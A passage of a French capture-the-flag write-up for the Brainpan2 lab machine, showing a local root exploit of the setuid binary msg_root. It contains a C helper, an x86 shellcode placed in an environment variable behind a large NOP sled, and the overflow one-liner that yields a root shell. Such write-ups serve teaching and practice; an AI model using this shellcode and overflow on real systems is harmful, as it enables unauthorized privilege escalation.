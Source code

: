 Ici la difficulté est liée au fait qu'on a un buffer très petit pour placer le shellcode (14 octets sans [nop-slep](https://en.wikipedia.org/wiki/NOP_slide))  

Heureusement pour nous, l'[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) n'est pas activée :  

```console
anansi@brainpan2:~$ cat /proc/sys/kernel/randomize_va_space
0
```

On va donc pouvoir faire une exploitation "old-school" qui consiste à charger le shellcode en environnement, auquel cas, on aura toute la place souhaitée pour le shellcode avec un nop-sled énorme :)  

On écrit un petit programme qui nous donnera l'adresse du shellcode une fois monté dans l'environnement :  

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
  char *s = getenv("EGG");
  printf("EGG => %p\n", s);
  return 0;
}
```

On compile, on upload, on rend exécutable...  

On trouve [un shellcode sympa](http://www.shell-storm.org/shellcode/files/shellcode-399.php) qu'on exporte avec un nop-slep de 64000 octets (c'est une piscine olympique de nops !)  

```console
anansi@brainpan2:~$ export EGG=`perl -e 'print "\x90"x64000 . "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`
anansi@brainpan2:~$ /tmp/get_addr 
EGG => 0xbfff0007
```

Comble de la malchance, un octet nul est présent dans l'adresse... Mais vu la taille du nop-sled on peut mettre 256 de plus, on est toujours dedans :  

```console
anansi@brainpan2:~$ /home/reynard/msg_root `perl -e 'print "A"x14 . "\x07\x01\xff\xbf"'` test
$ id
uid=104(root) gid=1000(anansi) groups=106(root),50(staff),1000(anansi)
```

Bingo !  

Un petit tour de manip plus tard afin de relancer `tshd` mais avec nos nouveaux privilèges...  

```console
root # cd /root/
root # ls -al
total 28
drwx------  3 root  root  4096 Nov  5 09:56 .
drwxr-xr-x 22 root  root  4096 Nov  5 07:09 ..
drwx------  2 root  root  4096 Nov  4 10:08 .aptitude
-rw-------  1 root  root     0 Nov  5 09:57 .bash_history
-rw-r--r--  1 root  root   589 Nov  5 09:56 .bashrc
-rw-r--r--  1 root  root   159 Nov  5 09:56 .profile
-rw-------  1 root  root   461 Nov  5 09:48 flag.txt
-rw-------  1 root  root   245 Nov  5 09:47 whatif.txt
```
